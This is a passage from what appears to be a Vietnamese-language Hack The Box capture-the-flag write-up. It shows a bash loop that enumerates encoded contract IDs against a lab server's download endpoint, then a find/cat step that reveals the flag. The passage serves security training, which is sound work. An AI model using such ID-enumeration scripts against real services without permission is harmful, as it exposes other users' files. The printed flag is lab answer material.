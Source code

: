 Tiếp đến có thể dùng:

```zsh
#!/usr/bin/bash

file='/home/kali/Downloads/encoded_uid.txt'
url='http://94.237.48.12:57204/download.php?contract='
count=0

while IFS= read -r line; do
  count=$((count+1))
  curl -sOJ "$url""$line"
  done < "$file"

echo "[+] $count file(s) downloaded!"
```

Hầu như toàn các file rỗng, chúng ta sẽ tìm ra file có chứa flag:

![](images/10.png)

```zsh
find . -type f -name '*.pdf' -size +0 -exec ls -l {} \;
-rw-rw-r-- 1 kali kali 30 Jul 10 09:09 ./contract_98f13708210194c475687be6106a3b84.pdf

cat contract_98f13708210194c475687be6106a3b84.pdf              
HTB{h45h1n6_1d5_w0n7_570p_m3}
```
